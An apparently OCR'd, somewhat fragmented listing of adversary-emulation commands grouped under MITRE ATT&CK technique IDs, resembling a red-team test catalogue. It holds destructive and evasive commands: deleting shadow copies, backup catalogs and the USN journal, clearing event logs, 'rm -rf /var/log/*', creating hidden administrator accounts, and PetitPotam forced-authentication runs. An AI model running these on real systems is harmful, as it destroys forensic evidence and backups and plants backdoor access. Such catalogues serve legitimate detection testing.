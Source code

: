which sh
* dir /s c:\ >> %temp%\download
dir /s "c:\Documents and Settings" >> %temp%\download
dir /s "c:\Program Files\" >> %temp%\download
dir "%systemdrive%\Users\*.*" >> %temp%\download
dir "%userprofile%\AppData\Roaming\Microsoft\Windows\Recent\*.*" >> %temp%\download
dir "%userprofile%\Desktop\*.*" >> %temp%\download
tree /F >> %temp%\download
* Get-ChildItem -Path #{host.system.path}
* dir
* ls
* pwd
* find ~ -type f -name #{host.print.file} 2>/dev/null
* powercmd.exe /c/collection/file_finder
* powercmd.exe /c/collection/find_interesting_file
* powercmd.exe /c/collection/get_indexed_item
##T1222: File and Directory Permissions Modification
* ```
* chmod o-x test1.txt
* chown ec2-user:ec2-user test1.txt
* chmod u+x test1.txt
* chmod 766 test1.txt
##T1495: Firmware Corruption
##T1187: Forced Authentication
* & "#{petitpotam_path}" #{captureServerIP} 10.0.0.2 #{efsApi}
Write-Host "End of PetitPotam attack"
* & "#{petitpotam_path}" 10.0.0.3 #{targetServerIP} #{efsApi}
Write-Host "End of PetitPotam attack"
* & "$env:TEMP\PetitPotam.exe" #{captureServerIP} #{targetServerIP} #{efsApi}
Write-Host "End of PetitPotam attack"
* powercmd.exe /c/lateral_movement/invoke_smbexec
##T1606: Forge Web Credentials
##T1592: Gather Victim Host Information
##T1589: Gather Victim Identity Information
##T1590: Gather Victim Network Information
##T1591: Gather Victim Org Information
##T1061: Graphical User Interface
##T1615: Group Policy Discovery
##T1200: Hardware Additions
##T1564: Hide Artifacts
* net user $ ATOMIC123! /add /active:yes
* New-LocalUser -Name "Administrator " -NoPassword
##T1574: Hijack Execution Flow
##T1062: Hypervisor
##T1562: Impair Defenses
##T1525: Implant Internal Image
##T1070: Indicator Removal on Host
* fsutil usn deletejournal /D C:
* fsutil.exe usn deletejournal /D
* vssadmin.exe delete shadows /all /quiet
* wbadmin.exe delete catalog -quiet
* wevtutil.exe /cl
* wmic.exe /NODE:*shadowcopy delete *
* fsutil|usn|deletejournal
* wevtutil|cl
* wevtutilcl
* fsutilusn|deletejournal
* powercmd.exe /c/credentials/mimikatz/purge
* powercmd.exe /c/management/lock
* powercmd.exe /c/management/logoff
* powercmd.exe /c/management/restart
* python/persistence/osx/RemoveDaemon
* rm -rf /var/log/*
* ```